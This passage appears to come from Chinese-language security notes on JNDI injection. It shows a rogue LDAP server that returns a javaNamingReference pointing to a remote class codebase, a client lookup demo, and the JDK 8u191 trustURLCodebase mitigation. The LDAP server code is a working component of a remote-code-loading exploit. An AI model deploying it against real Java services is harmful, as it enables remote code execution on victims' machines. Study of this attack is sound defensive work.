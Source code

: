 ```java
        }

        /**
         * {@inheritDoc}
         *
         * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */
        @Override
        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            } catch (Exception e1) {
                e1.printStackTrace();
            }

        }

        protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if (refPos > 0) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}

```
```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.util.Hashtable;

public class JndiDemo {
    public static void main(String[] args) throws NamingException {
        Hashtable<String,Object> env = new Hashtable<>();
        Context ctx = new InitialContext();
        ctx.lookup("ldap://localhost:9999/test");
    }
}
```
#### After 8u191
在8u191中同样和RMI一样对LDAP也添加了`com.sun.jndi.ldap.object.trustURLCodebase`属性,默认为False,限制了远程加载工厂类.
![](img/2023-02-21-14-43-51.png)  
![](img/2023-02-21-14-44-10.png)  
同样在之前的7u201和6u211版本中也添加了该属性.